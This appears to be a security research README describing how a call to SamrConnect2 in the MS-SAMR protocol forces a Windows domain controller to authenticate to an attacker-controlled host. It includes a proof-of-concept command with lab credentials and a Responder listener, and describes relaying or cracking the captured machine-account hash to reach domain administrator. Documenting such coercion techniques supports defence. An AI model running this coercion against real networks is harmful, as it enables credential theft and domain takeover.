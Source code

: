 # MS-SAMR - Remote call to SamrConnect2 (opnum 57)

## Summary

 - **Protocol**: [[MS-SAMR]: Security Account Manager (SAM) Remote Protocol (Client-to-Server)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380)

 - **Protocol UUID**: 12345778-1234-abcd-ef00-0123456789ac

 - **Protocol version**: 1.0

 - **SMB Named pipe**: ``

 - **Function name**: [`SamrConnect2`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/1076eb2a-4f51-4c5a-a7c7-a78323b06198)

 - **Function operation number**: `57`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-SAMR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380) protocol (with uuid `12345778-1234-abcd-ef00-0123456789ac` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-SAMR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-SAMR]: Security Account Manager (SAM) Remote Protocol (Client-to-Server)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380) and allows to call RPC functions of this protocol. We will then call the remote [`SamrConnect2`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/1076eb2a-4f51-4c5a-a7c7-a78323b06198) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
SamrConnect2('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
long SamrConnect2(
   [in, unique, string] PSAMPR_SERVER_NAME ServerName,
   [out] SAMPR_HANDLE* ServerHandle,
   [in] unsigned long DesiredAccess
 );
```

## References

 - Documentation of protocol [MS-SAMR]: Security Account Manager (SAM) Remote Protocol (Client-to-Server): https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380

 - Documentation of function `SamrConnect2`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/1076eb2a-4f51-4c5a-a7c7-a78323b06198
